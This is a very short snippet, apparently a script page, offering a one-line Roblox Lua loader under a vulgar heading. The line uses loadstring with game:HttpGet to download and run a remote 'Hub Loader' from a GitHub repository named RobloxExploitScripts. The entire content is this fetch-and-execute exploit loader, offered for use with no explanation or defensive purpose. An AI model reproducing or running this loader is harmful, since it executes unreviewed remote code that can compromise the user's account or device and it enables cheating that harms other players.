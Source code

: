 # Kontol
loadstring(game:HttpGet("https://raw.githubusercontent.com/RobloxExploitScripter/RobloxExploitScripts/main/Hub%20Loader", true))()
